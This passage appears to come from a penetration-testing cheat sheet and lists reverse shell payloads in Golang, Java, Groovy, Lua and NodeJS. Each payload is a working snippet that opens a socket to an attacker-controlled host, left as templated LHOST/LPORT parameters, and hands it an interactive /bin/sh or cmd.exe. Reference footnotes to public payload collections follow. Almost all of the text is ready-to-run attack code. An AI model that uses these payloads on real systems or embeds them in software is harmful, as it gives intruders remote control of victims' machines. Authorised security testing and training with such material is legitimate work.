 ### Golang

```sh
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","{{< param "m.LHOST" >}}:{{< param "m.LPORT" >}}");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

### Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/{{< param "m.LHOST" >}}/{{< param "m.LPORT" >}};cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Groovy [^groovy-shell]

```groovy
String host="{{< param "m.LHOST" >}}";
int port={{< param "m.LPORT" >}};
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

{{<hint info>}}
Java reverse shell also works for Groovy.
{{</hint>}}

### Lua

```sh
lua -e "require('socket');require('os');t=socket.tcp();t:connect('{{< param "m.LHOST" >}}','{{< param "m.LPORT" >}}');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

### Lua Windows

```sh
lua5.1 -e 'local host, port = "{{< param "m.LHOST" >}}", {{< param "m.LPORT" >}} local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

### NodeJS

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect({{< param "m.LPORT" >}}, "{{< param "m.LHOST" >}}", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```


[^pentestmonkey]: “Reverse Shell Cheat Sheet | Pentestmonkey.” Pentestmonkey | Taking the Monkey Work out of Pentesting, http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet.
[^nc-openbsd]: “Nc.Openbsd.” Man Pages Archive - Manned.Org, https://manned.org/nc.openbsd/6f0a5cf9.
[^swisskyrepo-shells]: swisskyrepo. “PayloadsAllTheThings/Reverse Shell Cheatsheet.Md at Master · Swisskyrepo/PayloadsAllTheThings · GitHub.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md.
[^groovy-shell]: Frohoff, Chris. “Pure Groovy/Java Reverse Shell .” Gist · GitHub, 262588213843476, https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76.
[^cert-pinning]: “Certificate and Public Key Pinning Control.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/controls/Certificate_and_Public_Key_Pinning.
[^openssl]: OpenSSL Foundation, Inc. “/Docs/Manmaster/Man1/Openssl.Html.” OpenSSL.Org, https://www.openssl.org/docs/manmaster/man1/openssl.html.
[^ncat]: “Ncat Users’ Guide.” Nmap: The Network Mapper - Free Security Scanner, https://nmap.org/ncat/guide/index.html.
[^terminal-shell-console]: “What Is the Exact Difference between a ‘Terminal’, a ‘Shell’, a ‘tty’ and a ‘Console’? .” Unix & Linux Stack Exchange, https://unix.stackexchange.com/a/4132/356054.